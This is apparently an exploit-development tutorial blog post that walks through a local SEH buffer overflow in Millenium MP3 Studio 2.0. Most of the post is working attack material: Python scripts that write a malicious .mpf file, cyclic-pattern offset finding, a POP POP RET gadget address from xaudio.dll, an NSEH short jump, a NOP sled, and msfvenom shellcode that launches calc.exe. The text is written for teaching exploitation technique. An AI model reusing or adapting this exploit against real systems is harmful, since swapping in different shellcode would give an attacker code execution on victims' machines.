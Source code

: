 ```yaml
---
layout: single
title: Local SEH overflow - exploitation of Millenium MP3 Studio 2.0 with a calc.exe shellcode payload
---
```


The victim program for this walkthrough is `Millenium MP3 Studio 2.0`, it includes a local SEH based buffer overflow when opening certain sized files with specific file extensions.

Start by attaching an immunity debugger to the running MP3 Studio process.

![local seh 1](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/localseh/localseh1.png)

The basic concept for exploiting a local Structured Exception Handler based buffer overflow, is that you will create a malicious text file that includes the payload that you are going to manually enter into a vulnerable input field, or instead of a text file, you will generate a malicious payload embedded within something other than a text file, for example, this target application includes a buffer overflow when parsing certain types of data files, with a .mpf file extension, we will generate our malicious payload.

We can start the exploitation process by creating a basic python script that opens up a new file and inputs a large buffer of data into it.

```python
from struct import *

malicious_file = "evil.mpf"

payload = "A" * 10000 # the maliciously large buffer

try:
    print("[x] Opening the malicious file")
    payload_execution = open(malicious_file, "w+")
    print("[x] Creating a file named", malicious_file) 
    payload_execution.write(payload)
    print("[x] Adding payload to the malicious file")
    payload_execution.close()
except:
    print("[!] Error creating the exploit")
```

After running the newly-created script, you can now open this malicious .mpf  File in the MP3 Studio application, while the MP3 Studio application is still attached to immunity to bugger. Now you should be able to witness the buffer overflow vulnerability Being triggered, and you should experience an exception crash.

![local seh 2](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/localseh/localseh2.png)

If you look at the stack panel within Immunity, you can see the malicious payload has been written on to the stack.

![local seh 3](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/localseh/localseh3.png)

A few registers are also showing signs of being hit, but most importantly, the SEH handler tab shows you that both the SEH and NSEH have been both overwritten. This is the most important.

![seh handler hit](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/localseh/localseh7.png)

Now that you can trigger the vulnerability with a very large sized buffer, you want to calculate the buffer size to fill before overwriting any SEH handlers. You can use the Metasploit patter_create and pattern_offset tools to do this.

```
./pattern_create.rb -l 5000
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0....
```
This will create a unique cyclic pattern that will allow you to spot and calculate the buffer size on the basis that if every few bytes of this string is unique, you can calculate where the overwritten data comes from in this unique pattern.

Include this string in your exploit, and run it all through Immunity again, when it crashes this time, use the `!mona findmsp` command to locate any overwritten SEH locations and registers, and see where they have been overwritten.

[local seh 6](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/localseh/localseh6.png)

In order to actually exploit this, you need to obtain a POP POP RET  gadget, this can be done with MONA.py  via the !seh -n  command. The POP POP RET sequence will be overwriting the NSEH (next structured exception handler in the SEH chain)

Running this command will search through the program for the needed sequence, this POPPOPRET sequence will return execution flow back to the structured exception Handler, the goal is to overwrite both the exception Handler and the next structured exception Handler. 

![local seh 4](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/localseh/localseh4.png)

And the next structured exception Handler will be overwritten with this sequence that we discover, returning normal flow back to the user-controlled structured exception Handler.

Which you can then add a short jump over the next structure exception Handler, which then jumps into a NOP sled and to your final shellcode payload

Run these new addresses through struct.pack in order to arrange them properly with little endian format.


```python
from struct import *

malicious_file = "evil.mpf"

# Log data, item 36
# Address=0BADF00D
# Message=    SEH record (nseh field) at 0x0018f948 overwritten with normal pattern : 0x31684630 (offset 4112), followed by 1712 bytes of cyclic data after the handler

seh = pack ('<I',  0x10014E98) # POP POP RET from xaudio.dll - using !mona seh -n
nseh = pack ('<I', 0x909032EB) # Short jump over the POPPOPRET filled NSEH

# shellcode payload that is generated from msfvenom
shellcode = (
"\xdb\xc8\xba\x50\xf4\xd9\x51\xd9\x74\x24\xf4\x5e\x29\xc9\xb1"
"\x31\x31\x56\x18\x83\xee\xfc\x03\x56\x44\x16\x2c\xad\x8c\x54"
"\xcf\x4e\x4c\x39\x59\xab\x7d\x79\x3d\xbf\x2d\x49\x35\xed\xc1"
"\x22\x1b\x06\x52\x46\xb4\x29\xd3\xed\xe2\x04\xe4\x5e\xd6\x07"
"\x66\x9d\x0b\xe8\x57\x6e\x5e\xe9\x90\x93\x93\xbb\x49\xdf\x06"
"\x2c\xfe\x95\x9a\xc7\x4c\x3b\x9b\x34\x04\x3a\x8a\xea\x1f\x65"
"\x0c\x0c\xcc\x1d\x05\x16\x11\x1b\xdf\xad\xe1\xd7\xde\x67\x38"
"\x17\x4c\x46\xf5\xea\x8c\x8e\x31\x15\xfb\xe6\x42\xa8\xfc\x3c"
"\x39\x76\x88\xa6\x99\xfd\x2a\x03\x18\xd1\xad\xc0\x16\x9e\xba"
"\x8f\x3a\x21\x6e\xa4\x46\xaa\x91\x6b\xcf\xe8\xb5\xaf\x94\xab"
"\xd4\xf6\x70\x1d\xe8\xe9\xdb\xc2\x4c\x61\xf1\x17\xfd\x28\x9f"
"\xe6\x73\x57\xed\xe9\x8b\x58\x41\x82\xba\xd3\x0e\xd5\x42\x36"
"\x6b\x29\x09\x1b\xdd\xa2\xd4\xc9\x5c\xaf\xe6\x27\xa2\xd6\x64"
"\xc2\x5a\x2d\x74\xa7\x5f\x69\x32\x5b\x2d\xe2\xd7\x5b\x82\x03"
"\xf2\x3f\x45\x90\x9e\x91\xe0\x10\x04\xee")

payload = "A" * 4112 # after calculating the buffer size that triggers this specific vulnerability
payload += nseh
payload += seh
payload += "\x90" * 100
payload += shellcode

# Log data, item 24
# Address=10014E98
# Message=  0x10014e98 : pop esi # pop ecx # ret  |  {PAGE_EXECUTE_READ} [xaudio.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v3.0.7.0 (c:\mp3-millennium\xaudio.dllpayload_execution = open(malicious_file, 'w+')

try:
    print("[x] Opening the malicious file")
    payload_execution = open(malicious_file, "w+")
    print("[x] Creating a file named", malicious_file) 
    payload_execution.write(payload)
    print("[x] Adding payload to the malicious file")
    payload_execution.close()
    print("[x] Sending junk")
    print("[x] Sending POP POP RET via controlled SEH handler")
    print("[x] Jumping to shellcode")
except:
    print("[!] Error creating the exploit")
```

Now you can pop a calculator through this local SEH overflow.

![local seh 5](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/localseh/localseh5.png)

